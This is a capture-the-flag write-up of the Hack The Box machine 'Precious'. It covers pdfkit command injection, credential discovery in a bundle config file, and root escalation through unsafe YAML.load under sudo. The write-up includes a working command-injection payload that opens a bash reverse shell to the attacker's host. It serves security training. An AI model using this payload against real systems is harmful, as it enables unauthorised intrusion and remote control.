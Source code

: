 ```yaml
---
title: "Hack The Box - Precious [Easy]"
date: 2023-05-23T19:42:27+03:00
draft: true
tags: ["hackthebox"]
---
```


We begin with a simple web page that has an input, apparently this input turns a webpage to a PDF, I tried with hosting a page on my machine and tried to use it for the input. 

Then the website provided me with a PDF of the website that I've hosted, I've downloaded the PDF and used the `exiftool` to figure out what was generating this PDF file, from there I saw that it was generated by `pdfkit v0.8.6`. 

I went to google to check if there are any exploits and I found this:
- https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795

This apparently gives me a command injection exploit, and I tried the following payload:

```
http://myip:8080/?name=#{'%20`bash -c "bash -i >& /dev/tcp/myip/myport 0>&1"`'}
```

# Flag 1

This gave me a reverse shell for the user `ruby`, from this point I've run `linpeas.sh` to check how can I gain access to the user `henry` and I saw the file `/home/ruby/.bundle/config` and I went to check it.

```
$ cat /home/ruby/.bundle/config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:<passwod>"

```

I gained access to the user with an ssh login to the `hnery` user and gained the `user.txt` flag located in the home directory.

# Flag 2

```sh
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

This gives the clue of how to get the next flag, let's look what this file contains:

```ruby
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

We have `YAML.load(File.read("dependencies.yml"))` which hints that we need to use the `dependancies.yml` file to gain root. 

Using google again to see how can we do that, this took me some time, but figuring out the attack surface is what is this all about. The attack surface is being the YAML loader, so I've tried to look for exploits there, and I found this:
- https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/

I executed the `/usr/bin/ruby /opt/update_dependencies.rb` command with sudo and then using the `bash -p` I gained the root access. 